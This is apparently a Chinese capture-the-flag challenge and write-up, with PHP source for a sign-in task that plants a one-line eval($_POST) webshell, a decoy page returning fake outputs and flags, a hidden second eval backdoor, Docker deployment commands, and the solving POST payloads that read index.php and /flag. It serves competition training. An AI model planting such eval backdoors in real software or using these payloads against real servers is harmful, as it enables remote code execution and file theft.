 # 真亦假，假亦真(HZNU版)【完成】

题目描述：开开心心签个到吧，祝各位师傅们好运~

`Jay17ashjdaskdhasadasdadsadssdasdadsasdasdasdasdxcvnxkjcvnxjcsdhkjashdjkadjk.php`

```php
<?php
error_reporting(0);
header('Content-Type: text/html; charset=utf-8');
highlight_file(__FILE__);

//签到题，直接送大家shell了，做好事不留名，我叫Jay17

//标准一句话mua~
eval($_POST[1]);
?>
```

`index.php`

```php
<?php
error_reporting(0);
header('Content-Type: text/html; charset=utf-8');
highlight_file('Jay17ashjdaskdhasadasdadsadssdasdadsasdasdasdasdxcvnxkjcvnxjcsdhkjashdjkadjk.php');

//以代码输出代替命令执行结果，让选手误以为成功利用了一句话木马，但是一直得不到正确的flag。
//比如选手传参ls /,返回事先准备好的想让选手看见的根目录内容，选手传参cat /flag返回ISCTF{fake_flag}
//破局方法很简单，选手只需要ls和cat index.php亲自查看源码内容即可。
//不是什么难题，偏脑洞和趣味性，以及有时候眼睛看到的不一定是真的哈哈哈哈。


if (isset($_POST['1']) && (strpos($_POST['1'], 'flag') !== false || strpos($_POST['1'], 'f*') !== false || strpos($_POST['1'], 'fl*') !== false || strpos($_POST['1'], 'fla*') !== false || (strpos($_POST['1'], 'f') !== false  &&  strpos($_POST['1'], '?') !== false) ) ){
    echo 'HZNU{this_is_real_flag}';
} elseif( isset($_POST['1'])  &&  strpos($_POST['1'], 'ls') !== false &&  strpos($_POST['1'], 'ls ..') == false  &&  strpos($_POST['1'], 'ls /') == false  ){
    echo 'index.php';
}else{
    eval($_POST['1']);
}




eval($_POST['ljtn']);
?>
```

运行部署：（cd进源码目录，会映射到9024端口）

```bash
快速构建：
docker build -t hstof . && docker run -d --name=hstof -e FLAG=HZNUCTF{test_flag} -p 9032:80 --rm hstof

快速重启：
docker stop hstof && docker rmi hstof && docker build -t hstof . && docker run -d --name=hstof -e FLAG=HZNUCTF{test_flag} -p 9032:80 --rm hstof
```

WP：（有时候眼睛看见的不一定是真的，只是别人想让你看到的罢了）

能成功骗过蚂蚁剑，就是根目录下看不见/flag

![image-20240411184822028](https://tc-md.oss-cn-hangzhou.aliyuncs.com/wujie/image-20240411184822028.png)

这句但凡你不相信我一次读一下`index.php`就能赢

```
1=cat /index.php
ljtn=cat /flag
```





